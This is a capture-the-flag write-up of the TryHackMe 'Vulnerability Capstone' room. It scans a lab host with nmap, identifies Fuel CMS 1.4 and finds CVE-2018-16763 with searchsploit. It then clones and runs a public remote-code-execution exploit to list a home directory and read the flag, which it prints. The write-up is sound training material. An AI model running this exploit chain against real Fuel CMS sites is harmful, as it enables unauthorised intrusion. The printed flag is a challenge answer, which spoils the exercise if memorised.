

| Category          | Details                                                                         |
|-------------------|---------------------------------------------------------------------------------|
| 📝 **Name**       | [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone)      |  
| 🏷 **Type**       | THM Challenge                                                                   |
| 🖥 **OS**         | Linux                                                                           |
| 🎯 **Difficulty** | Easy                                                                            |
| 📁 **Tags**       | Fuel CMS 1.4, [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763) |

## Task2: Exploit the Machine (Flag Submission)

### What is the name of the application running on the vulnerable machine?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Vulnerability Capstone]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-02-12 17:31 +0100
Nmap scan report for 10.82.147.90
Host is up (0.060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 f3:75:ab:25:a7:de:22:86:eb:13:2c:f6:09:65:59:d8 (RSA)
|   256 3f:9f:06:03:c8:f3:7e:c2:57:73:ab:60:68:27:8c:c9 (ECDSA)
|_  256 7e:7a:65:a2:ef:49:22:66:65:a3:0d:b9:94:02:17:61 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to FUEL CMS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.27 seconds
```

#### Browse web application running at port 80


We can see `Fuel CMS` is running on target at port 80

### What is the version number of this application?
Main page shows `Fuel CMS` is running in version `1.4`.

### What is the number of the CVE that allows an attacker to remotely execute code on this application?

#### Use `searchsploit` to query known vulnerabilities
```
┌──(magicrc㉿perun)-[~/attack/THM Vulnerability Capstone]
└─$ searchsploit "Fuel CMS 1.4" -j | jq -r .RESULTS_EXPLOIT.[0].Codes
CVE-2018-16763
```

### What is the value of the flag located on this vulnerable machine?

#### Exploit [CVE-2018-16763](https://nvd.nist.gov/vuln/detail/CVE-2018-16763) to capture flag
```
┌──(magicrc㉿perun)-[~/attack/THM Vulnerability Capstone]
└─$ git clone -q https://github.com/altsun/CVE-2018-16763-FuelCMS-1.4.1-RCE.git CVE-2018-16763 && \
python3 ./CVE-2018-16763/exploit.py -u http://$TARGET
[+]Connecting...
Enter Command $ls -la /home/ubuntu
total 40
drwxr-xr-x 5 ubuntu ubuntu 4096 Sep  3  2021 .
drwxr-xr-x 3 root   root   4096 Sep  3  2021 ..
-rw------- 1 ubuntu ubuntu  178 Sep  3  2021 .Xauthority
lrwxrwxrwx 1 ubuntu ubuntu    9 Sep  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 ubuntu ubuntu  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ubuntu ubuntu 3771 Feb 25  2020 .bashrc
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .cache
drwxrwxr-x 3 ubuntu ubuntu 4096 Sep  3  2021 .local
-rw-r--r-- 1 ubuntu ubuntu  807 Feb 25  2020 .profile
drwx------ 2 ubuntu ubuntu 4096 Sep  3  2021 .ssh
-rw-r--r-- 1 ubuntu ubuntu    0 Sep  3  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 ubuntu ubuntu   23 Sep  3  2021 flag.txt
Enter Command $cat /home/ubuntu/flag.txt
THM{ACKME_BLOG_HACKED}
```
